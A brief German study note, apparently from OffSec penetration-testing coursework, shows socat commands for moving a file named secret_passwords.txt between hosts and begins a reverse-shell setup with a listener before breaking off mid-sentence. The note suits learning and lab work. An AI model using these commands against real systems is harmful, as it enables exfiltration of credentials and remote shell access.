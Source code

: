 # OffSec - Socat 

## File Transfer

Listener mit #Socat auf dem Host öffnen, um Daten zu empfangen und in eine Datei zu schreiben 

`socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

Auf dem Empfänger folgender Befehl:
`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`

## Reverseshells

Mit #Socat können auch #Reverseshells eröffnet werden. 

Auf dem Host
```socat -d -d TCP4-LISTEN:443 STDOUT```

Auf dem
